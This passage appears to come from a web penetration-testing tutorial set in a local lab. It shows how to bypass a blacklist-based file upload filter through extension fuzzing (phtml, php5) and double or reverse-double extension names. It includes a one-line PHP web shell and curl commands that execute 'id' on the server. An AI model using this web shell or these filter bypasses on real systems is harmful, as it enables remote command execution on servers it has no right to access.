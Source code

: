 <figure><img src="../../.gitbook/assets/web_fileUpload_serverSide_5.png" alt=""><figcaption><p>Figure 8: A blacklist-based server side filter blocking <code>.php</code> file extensions.</p></figcaption></figure>

In this case, we can fuzz the file extension and see if any [valid PHP extension](https://book.hacktricks.xyz/pentesting-web/file-upload#file-upload-general-methodology) has been left out of it (Figure 9).

<figure><img src="../../.gitbook/assets/web_fileUpload_serverSide_6.png" alt=""><figcaption><p>Figure 9: Fuzzing for valid <code>php</code> extensions.</p></figcaption></figure>

By trying both `php5` and `phtml` , we see that only the latter works as the server is not configured to interpret the former as a valid PHP script.

```bash
$ curl http://localhost/labs/uploads/shell.php5?cmd=id
����<?php system($_GET['cmd']); ?>

$ curl http://localhost/labs/uploads/shell.phtml?cmd=id
����uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Some filters might **only check if the extension exists** within the file name, which can be bypassed by renaming the file to `webshell.jpg.phar` (**double extension method**).  Others, might require for the file name to end with an allowed extension so we will have to switch the extensions over, i.e.,  `webshell.phar.jpg` (Figure 10) (**reverse double extension method**).
